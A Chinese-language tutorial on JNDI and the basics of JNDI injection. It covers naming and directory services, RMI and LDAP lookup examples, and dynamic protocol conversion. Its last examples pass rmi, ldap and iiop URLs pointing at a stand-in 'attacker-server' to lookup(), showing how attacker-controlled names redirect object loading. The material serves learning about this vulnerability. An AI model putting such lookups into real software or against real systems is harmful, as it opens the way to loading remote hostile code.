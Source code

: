 # JNDI与JNDI注入
## JNDI
JNDI (Java Naming and Directory Interface) ，包括Naming Service和Directory Service。JNDI是Java API，允许客户端通过名称发现和查找数据、对象。这些对象可以存储在不同的命名或目录服务中，例如远程方法调用（RMI），公共对象请求代理体系结构（CORBA），轻型目录访问协议（LDAP）或域名服务（DNS）。

### Naming Service
命名服务是将名称与值相关联的实体，称为"绑定"。它提供了一种使用"find"或"search"操作来根据名称查找对象的便捷方式。 就像DNS一样，通过命名服务器提供服务，大部分的J2EE服务器都含有命名服务器 。例如RMI Registry就是使用的Naming Service。

### Directory Service
是一种特殊的Naming Service，它允许存储和搜索"目录对象"，一个目录对象不同于一个通用对象，目录对象可以与属性关联，因此，目录服务提供了对象属性进行操作功能的扩展。一个目录是由相关联的目录对象组成的系统，一个目录类似于数据库，不过它们通常以类似树的分层结构进行组织。可以简单理解成它是一种简化的RDBMS系统，通过目录具有的属性保存一些简单的信息。下面说到的LDAP就是目录服务。

### JNDI概念
-   **原子名**是一个简单、基本、不可分割的组成部分
-   **绑定**是名称与对象的关联，每个绑定都有一个不同的原子名
-   **复合名**包含零个或多个原子名，即由多个绑定组成
-   **上下文**是包含零个或多个绑定的对象，每个绑定都有一个不同的原子名
-   **命名系统**是一组关联的上下文
-   **名称空间**是命名系统中包含的所有名称
-   **初始上下文**是探索名称空间的起点
-   要获取初始上下文，需要使用初始上下文工厂

### JNDI的好处
JNDI自身并不区分客户端和服务器端，也不具备远程能力，但是被其协同的一些其他应用一般都具备远程能力，JNDI在客户端和服务器端都能够进行一些工作，客户端上主要是进行各种访问，查询，搜索，而服务器端主要进行的是帮助管理配置，也就是各种bind。比如在RMI服务器端上可以不直接使用Registry进行bind，而使用JNDI统一管理，当然JNDI底层应该还是调用的Registry的bind，但好处JNDI提供的是统一的配置接口；在客户端也可以直接通过类似URL的形式来访问目标服务，可以看后面提到的**JNDI动态协议转换**。把RMI换成其他的例如LDAP、CORBA等也是同样的道理。

### JNDI示例
#### RMI
```java
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY,
        "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL,
        "rmi://localhost:9999");
Context ctx = new InitialContext(env);

//将名称refObj与一个对象绑定，这里底层也是调用的rmi的registry去绑定
ctx.bind("refObj", new RefObject());

//通过名称查找对象
ctx.lookup("refObj");
```
#### LDAP
```java
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY,
 "com.sun.jndi.ldap.LdapCtxFactory");
env.put(Context.PROVIDER_URL, "ldap://localhost:1389");

DirContext ctx = new InitialDirContext(env);

//通过名称查找远程对象，假设远程服务器已经将一个远程对象与名称cn=foo,dc=test,dc=org绑定了
Object local_obj = ctx.lookup("cn=foo,dc=test,dc=org");
```
#### JNDI动态协议转换
上面的两个例子都手动设置了对应服务的工厂以及对应服务的PROVIDER_URL，但是JNDI是能够进行动态协议转换的。

例如：
```java
Context ctx = new InitialContext();
ctx.lookup("rmi://attacker-server/refObj");
//ctx.lookup("ldap://attacker-server/cn=bar,dc=test,dc=org");
//ctx.lookup("iiop://attacker-server/bar");
```

再如下面的：
```java
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY,
        "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL,
        "rmi://localhost:9999");
Context ctx = new InitialContext(env);

String name = "ldap://attacker-server/cn=bar,dc=test,dc=org";
//通过名称查找对象
ctx.lookup(name);
```
即使服务端提前设置了工厂与PROVIDER_URL也不要紧，如果在lookup时参数能够被攻击者控制，同样会根据攻击者提供的URL进行动态转换。

